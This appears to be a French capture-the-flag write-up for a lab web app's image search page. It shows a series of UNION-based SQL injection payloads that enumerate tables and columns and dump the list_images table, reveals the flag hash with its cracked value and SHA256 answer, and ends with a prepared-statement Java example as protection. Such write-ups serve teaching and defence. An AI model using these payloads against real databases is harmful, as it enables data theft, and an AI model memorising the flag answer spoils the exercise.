 
#  Explications

  

En inspectant la page : /?page=searchimg

  

Le champ de recherche **id** est sensible aux injections SQL.



Si on entre `1 OR 1=1` comme id on a la liste de toute les images.

    1 OR 1=1 union select null, concat(table_name) from information_schema.tables where table_schema=database()
le nom de la table est list_images

    1 OR 1=1 union select null, concat(column_name) from information_schema.columns where table_schema=database()
On obtient la liste des colonnes de la table list_images(id, url, title, comment).

    1 OR 1=1 union select null, concat(id, url, title, comment) from list_images

On voit que le user avec l'id 5 est le flag.

1928e8083cf461a51303633093573c46
md5 vers texte = albatroz
texte vers sha256 = f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188
#  Protection

En préparant ses requêtes

  

Exemple:

```java

String  sql  =  "SELECT * FROM users WHERE email = ?";

  

// Run the query, passing the 'email' parameter value...

ResultSet  results  = stmt.executeQuery(sql, email);

```